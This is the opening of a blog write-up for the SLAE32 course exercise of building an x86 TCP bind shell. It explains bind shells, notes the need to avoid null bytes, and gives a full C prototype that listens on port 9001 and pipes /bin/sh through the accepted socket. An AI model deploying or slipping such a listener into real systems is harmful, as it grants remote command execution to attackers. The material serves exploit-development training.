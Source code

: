 ```yaml
---
layout: post
title: "SLAE32 - 1. TCP Bind Shell"
---
```


## Introduction:
The first SLAE32 exercise that required a write up was the x86 bind shell, written from scratch. As we know, or may not know, a bind shell does what it says in the name. It binds a shell. Unlike a reverse shell, the process sets up a listener on the host and waits for a connection, once accepted it fires off our new process and pipes the connection through allowing commands to be sent from a remote system and return the output. 

## Brief thoughts:
The actual implementation of the TCP bind shell was relatively straight forward. Using a C based prototype I was able to make a list of required system calls and utilise the Linux man pages to confirm the arguments and how they would need to appear and be set up within the asm file. An important thing to remember is null bytes are bad. We don't want these to exist in our final project so simple tricks were used to get around these (i.e xor'ing registers with themselves to zero them). These will be highlighted when, and where, they are used.

## Initial planning:
To begin with, I needed to know how a TCP bind shell would be implemented in C. As I had just been looking through h0mbre_'s github write ups, I remembered they included a simple one so I used this as my base reference.

```
#include <stdio.h>
#include <strings.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void) {
    int listen_sock = socket(AF_INET, SOCK_STREAM, 0);

    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;           
    server_addr.sin_addr.s_addr = INADDR_ANY;  
    server_addr.sin_port = htons(9001);        

    bind(listen_sock, (struct sockaddr *)&server_addr, sizeof(server_addr));

    listen(listen_sock, 0);

    int conn_sock = accept(listen_sock, NULL, NULL);

    dup2(conn_sock, 0);
    dup2(conn_sock, 1);
    dup2(conn_sock, 2);

    execve("/bin/sh", NULL, NULL);
}
```
